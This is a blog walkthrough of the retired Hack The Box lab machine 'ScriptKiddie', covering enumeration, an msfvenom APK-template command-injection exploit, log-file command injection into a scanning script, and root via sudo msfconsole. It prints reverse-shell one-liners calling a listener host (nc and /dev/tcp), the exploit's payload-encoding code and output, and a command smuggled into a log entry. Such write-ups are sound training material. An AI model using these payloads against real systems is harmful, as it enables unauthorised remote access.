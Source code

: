 ```yaml
---
category: Walkthrough
date: 2021-06-05 16:00:00
header:
  og_image: https://i.imgur.com/Egv2O1k.png
  teaser: https://i.imgur.com/Egv2O1k.png
language: en-US
namespace: htb-scriptkiddie
redirect_from: /writeup/2021/06/htb-scriptkiddie
tags:
- HackTheBox
- HTB Easy
- HTB Linux
title: 'Walktrough: HTB ScriptKiddie'
---
```


Hello guys!

This week's machine will be **ScriptKiddie**, another easy-rated Linux box from [Hack The Box](https://www.hackthebox.eu), created by [0xdf](https://app.hackthebox.eu/users/4935).<!--more-->

:information_source: **Info**:  Write-ups for Hack The Box machines are posted as soon as they’re retired.
{: .notice--info}

![HTB ScriptKiddie](https://i.imgur.com/Igno8wu.png){: .align-center}

## Enumeration

As usual, started running a `nmap` quick scan, to see which services were published on this machine.

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.226                                                                   

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-24 14:05 -03
Nmap scan report for 10.10.10.226
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.94 seconds
```

### 5000/TCP - HTTP Service

Once accessed the published page, noticed some hacking tools published making it easier for a script kiddie to play with hacking, allowing you to scan an IP using `nmap`, create a `msfvenom` payload or search for exploits using `searchsploit`.

I've tried several ways to inject commands in these forms, but none of the attempts succeeded. I have even found an interesting tool called [commixproject/commix](https://github.com/commixproject/commix) in GitHub that automates this process but had no luck this time.

Looking for vulnerabilities in the tools used by the app (`nmap`, `msfvenom`, `searchsploit`), I have found one related to `msfvenom`, as below:

```bash
$ searchsploit msfvenom
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection | multiple/local/49491.py
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Initial access and User flag

After changing the python script available in searchsploit, using the desired payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f`, I have found some errors during the execution of the binary `keytool`, once it tries to sign an APK file with the payload in the Common Name but, as there was a `+` in the base64 encoded content, made a quick change to encode it twice, allowing me to create an evil APK to be uploaded to the tool and exploit the vulnerability

```python
# Change me
payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
if '+' in payload_b64:
    payload_b64 = b64encode(payload_b64.encode()).decode()
    decode = '| base64 -d | base64 -d'
else:
    decode = '| base64 -d'

dname = f"CN='|echo -n {payload_b64} {decode} | sh #"
```

Below we can see the output of the execution which generates the `evil.apk` file.

```bash
$ python3 49491.py                                                                                                               
[+] Manufacturing evil apkfile
Payload: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
-dname: CN='|echo -n Y20wZ0wzUnRjQzltTzIxclptbG1ieUF2ZEcxd0wyWTdZMkYwSUM5MGJYQXZabnd2WW1sdUwzTm9JQzFwSURJK0pqRjhibU1nTVRBdU1UQXVNVFF1TVRNMklEUTBORE1nUGk5MGJYQXZaZz09 | base64 -d | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning:
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmpt7qr4ner/evil.apk
Do: msfvenom -x /tmp/tmpt7qr4ner/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

After obtaining the evil payload, started one listener and selected the options suggested in the payload output, where selecting the android operating system would result in the payload `android/meterpreter/reverse_tcp` we aim to abuse based in the existing vulnerability, as well as specifying the lhost as 127.0.0.1 but this shouldn't impact the way exploit will work.

![Submiting the evil payload](https://i.imgur.com/Nvcj4BA.png){: .align-center}

After hitting the **Generate** button, a reverse shell was returned, as seen below in this screenshot.

![reverse shell returned](https://i.imgur.com/llt85mf.png){: .align-center}

Inspecting the session obtained, with the credentials running the web application, in this case user `kid`, was possible to obtain the user flag, as the file resided in it's home directory.

```bash
kid@scriptkiddie:~$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
kid@scriptkiddie:~$ cat /home/kid/user.txt
<redacted>
```

## Root flag

After running `linenum.sh` to automate the enumeration, noticed taht there was another user called `pwn`, possibly with more privileges than the user we currently have. As we had access to it's home directory, found a file called `scanloosers.sh` with the following content:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

As this script reads the content of a file in the current's user home directory (`/home/kid/logs/hackers`) and issues an `nmap` command, edited the content of this file in a way we would inject a reverse shell command with the user running this script, possibly `pwn`.

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' #" > ~/logs/hackers
```

After setting up a new listener and changing the `hackers` file with the above-mentioned content, another session was obtained, this time with the user `pwn` :smile:

Enumerating the box again, this time with the new user account, noticed by running `linpeas.sh` that this user has access to start `msfconsole` in a privileged way.

```plaintext
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Once started it using `sudo`, I was able to issue commands as user `root`, as well as read the content of file `/root/root.txt` and obtain the final flag for this machine.

```bash
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q
msf6 > id
[*] exec: id

uid=0(root) gid=0(root) groups=0(root)
msf6 > cat /root/root.txt
[*] exec: cat /root/root.txt

<redacted>
msf6 >
```

Hope this was somehow useful!

See you in the next post :smiley:
